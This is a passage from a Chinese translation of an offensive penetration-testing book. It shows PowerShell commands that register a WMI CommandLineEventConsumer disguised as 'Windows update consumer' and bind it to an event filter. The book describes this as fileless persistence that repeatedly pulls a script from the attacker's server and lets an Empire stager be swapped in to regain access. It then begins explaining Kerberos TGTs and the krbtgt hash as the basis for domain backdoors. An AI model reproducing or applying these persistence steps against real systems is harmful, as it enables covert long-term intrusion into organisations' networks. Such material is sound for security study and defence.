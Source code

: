 我们将此FinalPayload变量放入ComandLineEventConsumer类的Consumer对象中以注册它：
```
PS > $CommandLineConsumerArgs = @{
 Name = "Windows update consumer"
 CommandLineTemplate = $FinalPayload
}
PS > $Consumer = Set-WmiInstance -Namespace root/subscription -Class
CommandLineEventConsumer -Arguments $CommandLineConsumerArgs
```

最后一步是使用所谓的绑定对象将事件筛选器链接到使用者：
```
PS > $FilterToConsumerArgs = @{
 Filter = $Filter
 Consumer = $Consumer
}
PS > $FilterToConsumerBinding = Set-WmiInstance -Namespace
root/subscription -Class __FilterToConsumerBinding -Arguments
$FilterToConsumerArgs
```

绑定完成后，我们将立即开始从Citrix服务器接收script.txt文件的请求。如前所述，script.txt包含要执行的伪命令。一旦我们失去访问权限，我们只需将其内容替换为一个Empire stager以恢复访问权限。
![](chap4/chap4-33.jpg)

非常漂亮！（我们可以随意引入一个随机文件名，使用Let'sEncrypt证书的HTTPs和其他很酷的东西。我可能会在以后的博客中详细介绍。作者博客地址https://www.hacklikeapornstar.com/）

磁盘上没有文件，没有自动运行键，只是混淆于Windows 操作。您可以在以下系列中找到类似怪异的持久性技术的其他灵感（作者给出的参阅链接http://www.hexacorn.com/blog/2017/01/28/beyond-good-ol-run-key-all-parts/，目前访问不了，提示权限不足）——不过，不确定它谈论的是WMI过滤器。

如果我们失去了网络接入，我们会有效地将系统隐藏起来。

现在让我们把注意力转向后门领域。目的很简单。即使管理员重置域中的每个密码、删除用户或修补程序服务器，我们也希望保留高度特权访问。

当然，考虑到我们的PI-Zero后门，我们总能重新获得访问权限，找到提升权限的另一种方法，并启动Mimikatz以获取新密码，但这真是一件麻烦事！相反，让我们走另一条路：一条通向 Windows El Dorado的路。为此，我们需要一些有关Windows域身份验证的附加说明，请耐心等待。

为了解决与重放攻击相关的各种NTLM弱点，Microsoft修改并实现了一个名为Kerberos（参阅链接http://www.roguelynn.com/words/explain-like-im-5-kerberos/）的开源身份验证协议。以下是Windows Kerberos身份验证过程中涉及的主要步骤：
- 用户使用其密码散列加密当前时间戳并将其发送到域控制器。
- DC使用存储在Active Directory中的散列解密时间戳，并检查它是否在10分钟的范围内。然后，它发送回一个加密数据块，即包含用户身份和权限的票证授予票证（TGT），只有DC可以解密和读取TGT。
- 稍后，想要访问web服务或网络共享的用户再次与DC联系，并盲目地将TGT连同所需服务的名称一起发回。DC解密TGT，检索用户的身份，并检查他们是否可以访问请求的服务。如果是这样，DC将发回票证授予服务（TGS），这是一个包含用户身份的加密数据块。TGS只能由目标服务读取。
- 用户盲目地将TGS转发到目标服务，目标服务解密数据、检索用户身份并授予访问权限。

我们故意省略了在这个过程中的许多会话密钥交换来对称地加密数据，因为它们不适合我们的直接目的。相反，我们将关注TGT。

如前所述，DC使用唯一密钥对其进行加密，并且在稍后的过程中对其进行信任，以准确反映用户的权限。加密TGT的密钥恰好是帐户krbtgt的密码散列，这是每个Windows域上存在的默认帐户。

